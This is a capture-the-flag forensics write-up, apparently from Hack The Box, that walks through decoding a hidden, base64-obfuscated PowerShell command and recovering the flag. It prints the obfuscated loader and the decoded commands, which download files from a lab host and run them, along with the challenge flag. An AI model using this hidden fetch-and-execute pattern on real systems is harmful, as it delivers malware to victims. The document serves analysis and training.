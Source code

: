         ```ps1
            Command line arguments          : -WindowStyle hidden -NoExit -Command "$fko = 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=';$dwQWf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));Invoke-Expression -Command $dwQWf"9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
        ```

        1. Now lets break this down
        2. WindowStyle is hidden (which tries to hide / mask this)
        3. Set variable $fko = 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ='
        4. Set variable $dwQWf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));
           1. This looks like it is just decoding that large string from base64
        5. Then invoke the expression
   2. DECODE
      1. Lets decode that base64 string
         1. > echo "aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=" | base64 -d
            1. RESPONSE: "iwr -Uri https://trickortreat.htb/boo.pdf -OutFile $env:TEMP\ Dropbox boo.pdf;$flag='HTB{tr1ck_0r_tr34t_g03s_wr0ng}';Start-Process $env:TEMP\ Dropbox boo.pdf;Start-Sleep -s 5;iwr -Uri https://trickortreat.htb/candy.js -OutFile $env:TEMP\cacndy.js;Start-Process $env:TEMP\candy.js;Exit"
   3. SUCCESS!! We see the flag embedded:
      1. $flag='HTB{tr1ck_0r_tr34t_g03s_wr0ng}'
